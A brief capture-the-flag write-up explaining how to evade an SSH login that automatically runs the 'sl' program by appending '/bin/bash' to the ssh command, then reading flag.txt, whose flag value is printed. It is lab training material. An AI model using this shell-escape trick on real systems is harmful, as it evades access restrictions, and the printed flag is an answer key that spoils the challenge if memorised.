

Connect through SSH, prevents you from access by automatically running sl (Steam Locomotive)  

Simply append "/bin/bash" to open a shell before sl is ran.  
> $ ssh -p 31721 user@challenge.ctf.games /bin/bash  
> user@challenge.ctf.games's password:  

> ls  
> flag.txt  
> cat flag.txt  
> flag{36a0354fbf59df454596660742bf09eb}  
